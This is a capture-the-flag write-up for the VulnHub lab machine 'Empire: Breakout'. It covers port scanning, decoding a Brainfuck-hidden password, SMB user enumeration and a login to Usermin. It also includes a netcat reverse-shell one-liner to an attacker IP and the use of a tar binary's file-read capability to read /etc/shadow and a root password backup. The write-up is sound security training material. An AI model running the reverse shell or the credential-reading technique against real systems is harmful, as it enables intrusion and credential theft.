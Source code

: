 ```yaml
---
layout: post
title: Empire: Breakout
categories: VulnHub Machines
permalink: /vulnhub/empire-breakout
---
```


Author: Icex64 & Empire Cybersecurity

## Nmap

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-09 02:53 UTC
Nmap scan report for 192.168.56.135
Host is up (0.00092s latency).
Not shown: 65530 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
80/tcp    open  http        Apache httpd 2.4.51 ((Debian))
|_http-server-header: Apache/2.4.51 (Debian)
|_http-title: Apache2 Debian Default Page: It works
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
10000/tcp open  http        MiniServ 1.981 (Webmin httpd)
|_http-title: 200 &mdash; Document follows
20000/tcp open  http        MiniServ 1.830 (Webmin httpd)
|_http-title: 200 &mdash; Document follows
MAC Address: 08:00:27:A2:1E:2A (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop

Host script results:
| smb2-time: 
|   date: 2025-01-09T02:53:44
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: -2s
|_nbstat: NetBIOS name: BREAKOUT, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

TRACEROUTE
HOP RTT     ADDRESS
1   0.92 ms 192.168.56.135

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.84 seconds
```

## Port 80

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/fc3a63cb-9633-4515-9432-fe1dc9c08dfe/15fa14b6-bd33-4c80-ae2e-d0577e3b7715/image.png)

We are greeted with the apache2 default page. Nothing too special on the page. Let’s look at the source code to see if we find anything.

### Source Code

```html
<!--
don't worry no one will get here, it's safe to share with you my access. Its encrypted :)

++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.

-->
```

We can find the above comment hidden within the source code of the page. The weird looking string is encoded using the Brainf**k cipher. Decoding it we get the below string

```bash
.2uqPEfj3D<P'a-3
```

It seems this could be a password to an account. Let’s visit the other ports where we saw MiniServ running.

## Port 10000

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/fc3a63cb-9633-4515-9432-fe1dc9c08dfe/dcc8a846-f488-4f3f-beed-f7879cc66cf7/image.png)

We are greeted with a login page. We can try to login with the password we obtained earlier. Using admin as the user with the password doesn’t work. This means that we need to look for a valid username.

If we look back at the nmap scan we can see that smb is running. We can use enum4linux to find valid users

## enum4linux

```bash
enum4linux -r 192.168.56.135
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Thu Jan  9 03:10:36 2025

 =========================================( Target Information )=========================================
                                                                                                                                                                                                                                            
Target ........... 192.168.56.135                                                                                                                                                                                                           
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none

<SNIP>                                                                                                                                                                        

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''                                                                                                                                                                 
                                                                                                                                                                                                                                            
S-1-22-1-1000 Unix User\cyber (Local User)                                                                                                                                                                                                  

<SNIP>

enum4linux complete on Thu Jan  9 03:10:49 2025
```

We can see that there is a local user with the username cyber. Let’s try using that as our username on the Webmin login page.

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/fc3a63cb-9633-4515-9432-fe1dc9c08dfe/3d4f6737-6564-4e34-8f7d-423c15ff0547/image.png)

Well, that didn’t work. There is another service Usernmin running on port 20000. We can check to see if the credentials work there.

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/fc3a63cb-9633-4515-9432-fe1dc9c08dfe/9ddef0c8-0342-4f37-8bdf-216b9b4a1e12/image.png)

And there we go, we are now logged in onto Usermin. We can now use the inbuilt terminal to run commands on the server.

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/fc3a63cb-9633-4515-9432-fe1dc9c08dfe/9b590a03-9533-48c3-b6af-4aa98db0721a/image.png)

Let us get a more interactive shell by using netcat.

```bash
[cyber@breakout ~]$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.56.103 4242 >/tmp/f
```

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/fc3a63cb-9633-4515-9432-fe1dc9c08dfe/445c75bc-a961-4ad2-8657-0931947eba2b/image.png)

After getting a more interactive shell using python, we get the user.txt file.

Now time to escalate the privileges.

## Priv Esc

We can see that there is a binary for the tar program there. Which is likely our way to root.

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/fc3a63cb-9633-4515-9432-fe1dc9c08dfe/93f8a00c-5ea0-4f3e-93a1-c6a130cac7cd/image.png)

My first thought was that maybe we have sudo as root on the tar binary. But sudo was disabled so we can’t do that.

We can use getcap to see what capabilities the binary has.

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/fc3a63cb-9633-4515-9432-fe1dc9c08dfe/65f29b93-5210-4aa0-aea6-4144e2773e5f/image.png)

The cap_dac_read_search capability allows us to bypass file read permissions.

We can try and see if we can read the /etc/shadow file.

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/fc3a63cb-9633-4515-9432-fe1dc9c08dfe/48dde4a3-e4b9-48f5-b8cb-5da9ff539af8/image.png)

And sure enough we can.

We can try and crack the hashes offline, but considering the password for cyber was complex, we can see if we have any other way.

Since we can read any file as root, we can look for interesting files owned by root in any of the usual places such as /var/backup or /opt.

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/fc3a63cb-9633-4515-9432-fe1dc9c08dfe/2ccc6616-798e-4656-867c-e43669c1745d/image.png)

Looking at /var/backup we can see a .old_pass.bak file which is readable only by root.

Let’s use out tar binary to read this file.

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/fc3a63cb-9633-4515-9432-fe1dc9c08dfe/78c1ced4-3e8d-49bc-8da0-6bc71b8acd92/image.png)

We seem to get a complex looking password.

Let’s try to su to root using this pass.

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/fc3a63cb-9633-4515-9432-fe1dc9c08dfe/2381d0bc-04d1-4cf1-97ec-a2710231d95b/image.png)

And there we go, we finally have root

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/fc3a63cb-9633-4515-9432-fe1dc9c08dfe/fd904eab-e1a0-41ff-8a10-455123c79302/image.png)

https://www.vulnhub.com/entry/empire-breakout,751/
